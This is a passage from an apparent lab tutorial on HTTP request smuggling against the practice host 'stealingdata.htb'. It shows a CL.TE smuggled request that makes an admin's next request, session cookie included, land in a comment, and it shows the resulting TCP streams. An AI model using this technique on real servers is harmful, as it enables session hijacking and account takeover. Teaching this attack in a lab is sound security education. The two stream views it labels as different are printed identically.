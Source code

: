 ```http
name=hacker&comment=test

```

After sending this request, we have to wait for some time without sending any further requests. When we now refresh the comments section, we can see the admin user's request containing the session cookie. We can now steal the session cookie to access the admin panel:

![](zkDUZfr6qkVp.png)

To understand what happened, let's again look at the TCP stream. Just like in the previous sections, we are going to look at the reverse proxy's perspective first:

```
POST / HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Transfer-Encoding: chunked

0

POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

name=hacker&comment=testGET / HTTP/1.1
Host: stealingdata.htb
Cookie: sess=<admin_session_cookie>

```

Since the reverse proxy uses the CL header to determine the request length, it forwards our smuggled request to the web server in the first request's body. The reverse proxy sees our POST request to `/` and the admin's GET request to `/`.

Now let's look at the TCP stream from the web server's view:

```
POST / HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 154
Transfer-Encoding: chunked

0

POST /comments.php HTTP/1.1
Host: stealingdata.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 300

name=hacker&comment=testGET / HTTP/1.1
Host: stealingdata.htb
Cookie: sess=<admin_session_cookie>

```
